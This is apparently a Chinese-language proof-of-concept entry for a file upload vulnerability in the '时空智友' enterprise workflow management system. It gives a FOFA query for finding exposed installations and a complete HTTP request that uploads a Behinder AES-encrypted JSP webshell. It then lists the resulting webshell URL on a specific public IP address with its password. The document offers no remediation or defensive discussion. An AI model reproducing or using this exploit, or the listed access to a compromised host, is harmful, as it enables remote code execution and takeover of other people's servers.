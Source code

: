 # 时空智友企业流程化管控系统 formservice 文件上传漏洞

    ## fofa

```
body="企业流程化管控系统" && body="密码(Password):"
```



## poc

```
POST /formservice?service=attachment.write&isattach=false&filename=C4fD6D7DCb9B199a.jsp HTTP/1.1
Host: 106.14.45.41:8102
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Length: 533

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```

WebShell URL: https://106.14.45.41:8102/form/temp/202308110mil4t7y6wdq7eu6_C4fD6D7DCb9B199a.jsp
Password: rebeyond
WebShell tool: Behinder v3.0
Webshell type: jsp
